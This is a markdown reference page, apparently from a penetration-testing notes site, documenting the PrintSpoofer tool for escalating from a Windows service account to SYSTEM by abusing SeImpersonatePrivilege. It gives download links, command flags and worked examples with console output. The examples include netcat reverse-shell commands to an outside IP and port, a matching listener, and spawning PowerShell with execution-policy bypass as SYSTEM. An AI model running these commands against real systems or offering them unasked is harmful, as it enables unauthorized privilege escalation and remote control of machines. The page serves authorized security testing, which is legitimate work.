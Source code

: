 ```yaml
---
title : "Printspoofer"
# pre : ' '
description : "From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019."
date : 2021-06-21T14:57:31+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Printspoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

More info at [itm4n.github.io](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

## Installation

Download latest release from [Github.com](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

{{%attachments title="v1.0" fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

## Usage

```plain
PrintSpoofer.exe [OPTIONS]
```

## Flags

```plain
PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

## Usage 1: Spawn a SYSTEM process and interact with it

If you have an interactive shell, you can create a new SYSTEM process in your current console.

Use case: bind shell, reverse shell, `psexec.py`, etc.

```plain
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

## Usage 2: Spawn a SYSTEM process and exit

If you can execute commands but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

Use case: WinRM, WebShell, `wmiexec.py`, `smbexec.py`, etc.

Create a reverse shell:

```plain
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```plain
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

## Usage 3: Spawn a SYSTEM process on a desktop

If you are **logged on locally or via RDP** (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command `qwinsta` and then specify this value with the option `-d`.

Use case: Terminal Session (RDP), VDI

```plain
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp#3         lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

## URL List

* [Github.com - PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [itm4n.github.io - PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
